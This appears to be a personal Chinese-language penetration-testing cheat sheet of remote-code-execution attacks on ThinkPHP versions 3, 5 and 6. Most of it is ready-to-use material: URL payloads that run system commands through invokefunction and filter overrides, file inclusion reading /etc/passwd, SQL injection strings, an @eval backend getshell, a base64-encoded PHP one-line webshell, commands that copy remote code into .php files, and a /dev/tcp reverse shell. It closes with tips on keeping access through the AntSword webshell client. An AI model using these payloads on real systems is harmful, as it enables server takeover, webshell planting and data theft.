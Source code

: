 # Thinkphp——RCE

---

总结：3和5都有

```
https://www.cnblogs.com/0xdd/p/11102426.html

https://mp.weixin.qq.com/s?src=11&timestamp=1610677492&ver=2829&signature=qSAkzeeuM1ddHSQ-jdpYZlK*ZPNtriMl6TVSNeSL12Q-9vRtMoL954DUZOice6iV6-L3GJlY3bAtQAkcOciabH*oP6M-7c4*fdFLnUNt94w6OQi0EGTTNDhf1OGG*RfG&new=1

https://www.cnblogs.com/Mikasa-Ackerman/p/ThinkPhp-zhiRce-fen-xi.html

https://github.com/SkyBlueEternal/thinkphp-RCE-POC-Collection
```

---

## Thinkphp3

Tp3一般是底层出现漏洞，二次开发调用有漏洞的方法导致漏洞发生

thinkphp3.1.3 二次开发 sql回传注入缓存 

- 教程：https://www.zhihuifly.com/t/topic/309

- /ThinkPHP/Library/Think/Model.class.php中find函数（本来就有漏洞）被调用，未经过处理直接调用产生漏洞

```
比如在/Application/Home/Controller/IndexController.class.php写入了
public function test()
    {
       $id = i('id');
       $res = M('user')->find($id);
       //$res = M('user')->delete($id);
       //$res = M('user')->select($id);
    }
```

- payload

	```
	/index.php/home/index/test?id[field]=2,3,4,'%0aphpinfo();//'&id[cache][key]=1
	```

- 结果：产生c4ca4238a0b923820dcc509a6f75849b.php

  ```
  id[cache][key]=1 中的值 的MD5 -》c4ca4238a0b923820dcc509a6f75849b
  /Application/Runtime/Temp/c4ca4238a0b923820dcc509a6f75849b.php
  ```



Thinkphp3.2.3 update注入漏洞


```
/index.php/home/user?id[]=bind%27&money[]=1123&user=liao&id[0]=bind&id[1]=0%20and%20(updatexml(1,concat(0x7e,(select%20user()),0x7e),1))
```

信息泄露：

```
/index.php/home/res/re
```

后台getshell

```
后台标题：',@eval($_POST['a']),'
/application/common/conf/site.php
```

漏洞扫描+日志扫描：

```
https://github.com/sukabuliet/ThinkphpRCE
```



----

## Thinkphp5

index模块要存在，如果不存在就看哪个模块存在进行替换（如：home、admin  {s=home、s=admin}）

入口文件index.php可能在其他目录

均通过入口文件进行寻找模块：index.php?s= 

总结：

```
https://www.cnblogs.com/Mikasa-Ackerman/p/ThinkPhp-zhiRce-fen-xi.html
```

Thinkphp 5.0.7

```
/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat+/flag
```

Thinkphp 5.0.x

```
get:（开兼容模式）
/?s=index/think\config/get&name=database.username // 获取配置信息
/?s=index/\think\Lang/load&file=../../test.jpg    // 包含任意文件
/?s=index/\think\Config/load&file=../../t.php     // 包含任意.php文件
/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
/?s=index|think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=whoami
/?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()
---
post:未开强制路由，或利用变量覆盖达到命令执行
/?s=captcha
执行php函数：_method=__construct&method=get&filter[]=call_user_func&get[]=phpinfo
包含文件：   _method=__construct&method=get&filter[]=think\__include_file&server[]=-1&get[]=根目录
            _method=__construct&filter[]=strrev&filter[]=think\__include_file&method=get&server[]=1&get[]=根目录倒序文字（txt.1）
           _method=__construct&filter[]=strrev&filter[]=think\__include_file&method=get&server[]=1&get[]=
           txt.1=ecruoser/edocne-46esab.trevnoc=daer/retlif//:php    #包含看文件内容，base64编码预防编码错误
执行命令：   _method=__construct&filter[]=system&method=GET&get[]=whoami
-
/?s=captcha&test=phpinfo()  
 _method=__construct&filter[]=assert&method=get&server[REQUEST_METHOD]=-1

/?s=captcha&r=ZXZhbCgkX1BPU1RbJ2NtZCddKTs=   ->一句话cmd
/?s=captcha&r=cGhwaW5mbygpOw==               ->phpinfo
  _method=__construct&filter[]=base64_decode&filter[]=think\__include_file&method=get&server[]=1&get[]=cGhwOi8vZmlsdGVyL3JlYWQ9Y29udmVydC5iYXNlNjQtZGVjb2RlL3Jlc291cmNlPS90bXAvc2Vzc19oYWhhaGF0ZXN0
```

Thinkphp 5.1.x

```
/?s=index/\think\Request/input&filter[]=system&data=pwd
/?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
/?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id

post:未开强制路由，或利用变量覆盖达到命令执行
/?s=captcha
执行php函数：_method=__construct&method=get&filter[]=call_user_func&get[]=phpinfo
包含文件：   _method=__construct&filter[]=highlight_file&method=GET&get[]=/etc/passwd
执行命令：   s=whoami&_method=__construct&method=&filter[]=exec
```

Thinkphp常见日志路径：

```
3: ['/Runtime/Logs/', '/App/Runtime/Logs/', '/Application/Runtime/Logs/Admin/', '/Application/Runtime/Logs/Home/', '/Application/Runtime/Logs/'],
5: '/runtime/log/',

/application/runtime/logs/home/21_02_01.log
/application/runtime/logs/admin/21_02_01.log
/runtime/log/21_02_01.log
/runtime/log/202102/09.log
```

常用payload

```
cmd:PD9waHAgQGV2YWwoJF9QT1NUWydjbWQnXSk7Pz4=
写文件php代码：assert函数
	file_put_contents(写入文件路径，文件内容)
	file_put_contents('xx.php',base64_decode('一句话的base64'))
	file_put_contents(base64_decode('文件名的base64'),base64_decode('一句话的base64'))
	copy(复制路径,粘贴路径)
	copy('http://xxx.com/ss.txt','ss.php')
	解码执行以上语句的编码
		base64_decode('xxxx')
写文件执行命令：system函数
	echo ^一句话马^ >> xx.php

反弹shell:
	服务端：nc -lvp 服务端端口号
	反弹端: bash -i > /dev/tcp/服务端IP/服务端端口号
```

问题

```
1.如果phpinfo能执行，但是下面的不能执行，可能是没有权限写入
可以直接phpinfo替换成eval()一句话用蚁剑连接
2.没有权限写入时，可以试试蚁剑修改目录权限，再传，要传到能访问的目录中
```

注入：

```
影响环境：
5.0.13<=ThinkPHP<=5.0.15 、 5.1.0<=ThinkPHP<=5.1.5
/index.php/index/index/?username[0]=inc&username[1]=updatexml(1,concat(0x7e,user(),0x7e),1)&username[2]=1

```

---

## Thinkphp6 rce

### 反序列化

- 背景
  ```
  php环境7以上
  url路由：/控制器/操作/参数
  ```
- 参考
  ```
  https://www.cnblogs.com/-chenxs/p/12020777.html
  https://xz.aliyun.com/t/9405#toc-3   # 含poc
  ```
- 漏洞位置
  ```
  假设控制器中有
  unserialize($_GET['c'])
  ```
- 利用
  ```
  修改poc的phpinfo();使用php将poc跑出payload
  /pulibc/?c= base64编码的序列化payload
  ```